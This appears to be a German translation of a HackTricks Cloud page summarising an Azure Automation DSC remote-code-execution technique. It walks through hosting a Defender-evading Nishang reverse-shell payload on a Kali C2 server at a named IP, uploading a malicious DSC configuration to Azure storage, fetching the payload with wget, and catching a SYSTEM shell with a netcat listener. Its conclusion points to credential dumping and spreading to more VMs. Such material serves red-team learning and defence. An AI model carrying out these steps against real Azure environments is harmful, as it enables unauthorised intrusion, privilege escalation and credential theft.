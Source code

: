 # Az - State Configuration RCE

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

**Überprüfen Sie den vollständigen Beitrag unter: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Zusammenfassung der Vorbereitung und Schritte für die Remote-Server (C2)-Infrastruktur

#### Überblick
Der Prozess beinhaltet die Einrichtung einer Remote-Server-Infrastruktur, um ein modifiziertes Nishang `Invoke-PowerShellTcp.ps1`-Payload namens `RevPS.ps1` zu hosten, das entwickelt wurde, um Windows Defender zu umgehen. Das Payload wird von einer Kali Linux-Maschine mit der IP `40.84.7.74` über einen einfachen Python-HTTP-Server bereitgestellt. Die Operation wird in mehreren Schritten ausgeführt:

#### Schritt 1 — Dateien erstellen
- **Benötigte Dateien:** Zwei PowerShell-Skripte werden benötigt:
1. `reverse_shell_config.ps1`: Eine Desired State Configuration (DSC)-Datei, die das Payload abruft und ausführt. Sie ist auf [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) verfügbar.
2. `push_reverse_shell_config.ps1`: Ein Skript zum Veröffentlichen der Konfiguration auf der VM, verfügbar auf [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Anpassung:** Variablen und Parameter in diesen Dateien müssen an die spezifische Umgebung des Benutzers angepasst werden, einschließlich Ressourcennamen, Dateipfade und Server/Payload-Identifikatoren.

#### Schritt 2 — Konfigurationsdatei zippen
- Die `reverse_shell_config.ps1` wird in eine `.zip`-Datei komprimiert, um sie für die Übertragung auf das Azure Storage-Konto vorzubereiten.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Schritt 3 — Setzen des Speicherkontexts & Hochladen
- Die komprimierte Konfigurationsdatei wird mithilfe des Azure-Befehls Set-AzStorageBlobContent in einen vordefinierten Azure-Speichercontainer, azure-pentest, hochgeladen.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Schritt 4 — Vorbereitung des Kali-Box
- Der Kali-Server lädt das RevPS.ps1-Payload von einem GitHub-Repository herunter.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Das Skript wird bearbeitet, um die Ziel-Windows-VM und den Port für die Reverse-Shell anzugeben.

#### Schritt 5 — Konfigurationsdatei veröffentlichen
- Die Konfigurationsdatei wird ausgeführt, was dazu führt, dass das Reverse-Shell-Skript an den angegebenen Speicherort auf der Windows-VM bereitgestellt wird.

#### Schritt 6 — Payload hosten und Listener einrichten
- Ein Python SimpleHTTPServer wird gestartet, um den Payload zu hosten, zusammen mit einem Netcat-Listener zum Erfassen eingehender Verbindungen.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Die geplante Aufgabe führt das Payload aus und erlangt SYSTEM-Privilegien.

#### Fazit

Die erfolgreiche Ausführung dieses Prozesses eröffnet zahlreiche Möglichkeiten für weitere Aktionen, wie z.B. das Dumpen von Anmeldeinformationen oder die Ausweitung des Angriffs auf mehrere VMs. Der Leitfaden ermutigt zum kontinuierlichen Lernen und zur Kreativität im Bereich Azure Automation DSC.

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Heldenniveau mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
